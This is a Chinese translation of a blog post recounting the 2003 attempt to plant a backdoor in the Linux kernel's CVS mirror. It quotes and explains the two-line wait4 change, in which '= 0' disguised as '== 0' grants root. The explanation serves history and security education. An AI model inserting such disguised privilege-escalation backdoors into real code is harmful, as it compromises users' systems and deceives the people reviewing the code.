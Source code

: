 揭秘！—— 2003年Linux后门事件
==================================

最近Josh写了[一篇文章][1]，讲述2006年Debian Linux中出现的一系列安全bug，探讨了这些所谓bug是否是NSA植入的后门。（最后他作出结论：可能不是）

今天我想讲述的是另外一个[事件][2]——2003年某些人试图在Linux内核中植入后门的故事。这次事件很明确，的确有人想植入后门，只是我们不知道此人是谁，而且，也许永远都不会知道了。

时间回到2003年，当时Linux使用一套叫做BitKeeper的系统来存储Linux源代码的主拷贝。如果开发者想要提交一份针对源码的修改，就必须经过一套严格的审核过程，以决定这份修改是否能够合并进主拷贝。每个针对主拷贝的修改都必须附带一段说明，说明当中都包括了一个记录相应审核过程的链接。

但是有些人不喜欢BitKeeper，于是这些开发者们就用另一套叫做CVS的系统，维护了一份Linux源代码的拷贝，这样他们就能随时按自己喜欢的方式获取Linux源代码了。CVS中的代码其实就是直接克隆了BitKeeper中的代码。

但是在2003年11月5日的时候，Larry McVoy[发现][3]，CVS中的代码拷贝有一处改动并没有包含记录审核的链接。调查显示，这一处改动由陌生人添加，而且从未经过审核，不仅如此，在BitKeeper仓库的主拷贝中，这一处改动竟然压根就不存在。经过进一步调查后，可以明确，显然有人入侵了CVS的服务器并植入了此处改动。

神秘人物究竟做了哪些改动？这才是真正有趣的地方。改动修改的是Linux中一个叫wait4的函数，程序可以使用该函数进行挂起操作，以等待某些事件的触发。神秘人物添加的，就是下面这两行代码：

	if ((options == (__WCLONE|__WALL)) && (current->uid = 0))
        retval = -EINVAL;
        
[有C语言编程经验的人也许会问：这两行代码有什么特别的？请接着往下看]

猛地一看，好像这两行代码就是一段正常的错误校验代码，当wait4函数被某种文档中禁止的方式调用时，wait4就返回一个错误代码。但是一个真正认真的程序猿立刻就会发现代码中的问题，注意看在第一行末尾，“= 0”应该是“== 0”才对。是的，“== 0”在这里才是判断当前运行代码的用户ID(current->uid)是否等于0，而“= 0”不但无法判断，反而修改了用户ID的值，即，将其值赋值为0。

将用户ID设置为0，这是一个很严重的问题，因为ID为0的用户正是“root”，而root账户可以在系统中做任何事情，包括访问所有数据、修改任意代码的行为，能够危及到整个系统各个部分的安全。因此，这段代码的影响就是通过特殊手段使得任何调用wait4函数的软件都拥有了root权限。换句话说，这就是一个典型的后门。

客观地说，这一招很漂亮。看起来就像是无关紧要的错误校验，但真是身份却是一个后门。而且它混在其他经过审核的代码中间，几乎规避了所有审核可能会注意到自己的可能性。

但是它终究还是失败了，因为Linux小组有足够强的责任心，注意到了CVS仓库中的这段代码没有经过常规审核。Linux还是略胜一筹。

这是NSA干的吗？只能说有可能。因为有太多拥有技术能力和动机的人有可能实施了此次攻击。那么，到底是谁呢？除非某些人主动承认，又或者发现新的确凿证据，否则，我们将永远不会知道。

---

via: https://freedom-to-tinker.com/blog/felten/the-linux-backdoor-attempt-of-2003/

本文由 [LCTT][] 原创翻译，[Linux中国][] 荣誉推出

译者：[Mr小眼儿][] 校对：[校对者ID][]

[LCTT]:https://github.com/LCTT/TranslateProject
[Linux中国]:http://linux.cn/portal.php
[Mr小眼儿]:http://linux.cn/space/14801
[校对者ID]:http://linux.cn/space/校对者ID

[1]:https://freedom-to-tinker.com/blog/kroll/software-transparency-debian-openssl-bug/
[2]:https://lwn.net/Articles/57135/
[3]:https://lwn.net/Articles/57137/
